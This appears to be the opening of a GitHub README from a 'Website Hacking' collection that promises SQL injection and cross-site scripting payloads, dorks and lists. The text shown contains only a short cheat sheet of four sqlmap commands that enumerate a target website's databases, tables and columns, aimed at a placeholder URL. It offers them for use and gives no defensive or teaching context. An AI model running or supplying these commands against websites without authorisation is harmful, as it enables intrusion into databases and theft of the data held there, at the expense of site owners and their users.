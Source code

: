 # SQL Injection, Cross-Site Scripting, Payloads, Dorks, Commands & Lists []  Website Hacking © 2020 Collections
<center> ![Twitter URL](https://img.shields.io/twitter/url?label=Twitter&style=social&url=https%3A%2F%2Ftwitter%2Fxetaguridimitri) </center>

# Default SQL Injection Commands

# sqlmap -u 'Website' --dbs

# sqlmap -u 'Website' -D name.db --tables

# sqlmap -u 'Website' -D name.db -T name.table --columns

# sqlmap -u 'Website' -D name.db -T name.table -C name.columns

<p align="center"><img src="https://img.shields.io/badge/SQL-Injection-critical"></p>
